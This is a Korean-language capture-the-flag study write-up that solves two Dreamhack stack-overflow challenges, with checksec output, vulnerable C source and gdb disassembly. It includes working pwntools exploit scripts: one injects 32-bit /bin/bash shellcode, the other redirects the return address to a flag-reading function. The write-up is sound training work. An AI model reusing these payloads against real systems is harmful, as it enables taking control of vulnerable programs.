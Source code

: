 # CTF-study_week01

> _필수과제 두문제 풀이와 각자 공부한 내용에 대해 간단하게 발표하는 시간을 갖겠습니다._

---
## assignment 1
[basic_exploitation_000](https://dreamhack.io/wargame/challenges/2)


### 1. 보호 기법 확인
```c
//checksec 파일명 or checksec --file 파일명

Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```
어떠한 보호기법도 적용x

32bit 환경이기 때문에 스택프레임구조는 buf(n) | sfp(4) | ret(4) 
no relro -> got overwrite 가능
no canary found -> bof공격 가능
nx disabled -> shellcode 삽입가능
no pie -> 주소 변경 없음 

checksec 는 실행파일에 걸려 있는 보안 메커니즘을 확인해 주는 셸 스크립트입니다.

```c
//ls -l

total 20
-rw-r--r-- 1 unstraw0454 unstraw0454 5896 Mar 16 23:30 basic_exploitation_000
-rw-r--r-- 1 unstraw0454 unstraw0454  450 Mar 16 23:30 basic_exploitation_000.c
-rw-r--r-- 1 unstraw0454 unstraw0454  105 Mar 16 23:30 basic_exploitation_000.c:Zone.Identifier
-rw-r--r-- 1 unstraw0454 unstraw0454  105 Mar 16 23:30 basic_exploitation_000:Zone.Identifier
```
실행권한이 없으니 실행 권한을 줍니다.

`chmod +x basic_exploitation_000`

```c
//./basic_exploitation_000 실행하면..
 
buf = (0xffeb0078)
>
```
실행할때마다 buf 값이 계속 다르게 나온다...
`ASLR`이 걸려있구나..

간단하게보면 
```c
//basic_exploitation_000.c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```
공백포함 141의 str을 받을 수 있는데 buf크기가 0x80(128)이니 bof가 발생할 수 있다. 


### 2. gdb
`disass main`
```c
Dump of assembler code for function main:
   0x080485d9 <+0>:     push   ebp
   0x080485da <+1>:     mov    ebp,esp
   0x080485dc <+3>:     add    esp,0xffffff80
   0x080485df <+6>:     call   0x8048592 <initialize>
   0x080485e4 <+11>:    lea    eax,[ebp-0x80]
   0x080485e7 <+14>:    push   eax
   0x080485e8 <+15>:    push   0x8048699
   0x080485ed <+20>:    call   0x80483f0 <printf@plt>
   0x080485f2 <+25>:    add    esp,0x8
   0x080485f5 <+28>:    lea    eax,[ebp-0x80]
   0x080485f8 <+31>:    push   eax
   0x080485f9 <+32>:    push   0x80486a5
   0x080485fe <+37>:    call   0x8048460 <__isoc99_scanf@plt>
   0x08048603 <+42>:    add    esp,0x8
   0x08048606 <+45>:    mov    eax,0x0
   0x0804860b <+50>:    leave
   0x0804860c <+51>:    ret
End of assembler dump.
```
` 0x080485f5 <+28>:    lea    eax,[ebp-0x80]` 에서 
buf의 할당된 크기가 0x80임을 알 수 있다.


### 3. Payload
```py
from pwn import *

r= remote("host3.dreamhack.games",23029)

r.recvuntil("(")
buf = int (r.recv(10),16)
r.recvline()

payload =  b"\x31\xc0\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80"
payload += b'A'* (0x80-len(payload))
payload += b'B' *0x4
payload += p32(buf)
print(payload)
#context.log_level = "debug"
r.sendline(payload)
r.interactive()
```
shellcode 가 없으므로 `shellcode`를 넣어줘야한다. <br>scanf를 우회할수있는 32bit 쉘코드는 `"\x31\xc0\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80"`

buf크기 (0x80(shellcode 포함)) + SEP(0x4) + RET(0x4)

 
## assignment 2
[basic_exploitation_001](https://dreamhack.io/wargame/challenges/3)
### 1. 보호기법 확인
```c
//checksec 파일명 or checksec --file 파일명

Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    gets(buf);

    return 0;
}
```
`gets` 입력 함수는 bof 취약한 함수이다.
buf크기 만큼 덮고 SFP (4) 만큼 덮고 RET 로 read_flag() 함수 주소를 적으면된다.

### 2. gdb
gdb로 `info func`를 통해 read_flag의 함수주소를 본다.
0x080485b9

### 3. Payload 
```py
from pwn import *

r= remote("host3.dreamhack.games",17163)

payload = b'A'*0x80
payload += b'B'*0x4
payload += p32(0x080485b9)
r.sendline(payload)
r.interactive()
```

---
- 과제를 github로 작성하는김에 스터디 자체를 github로 진행하는건 어떤지🤔?
- 어떤 문제를 풀지 정해줄까 아니면 각자 풀고 싶은 워게임 풀어오는 것으로 할까🤔?..<br>
 필수과제 + 선택과제 는 어떤지? 
 
# 과제


## 참고자료
[checksec 보호기법](https://hackyboiz.github.io/2021/10/27/y00n_nms/linux-mitigation/)

[shellcode](https://yun-2.tistory.com/entry/Dreamhack-Level2-basicexploitation000)
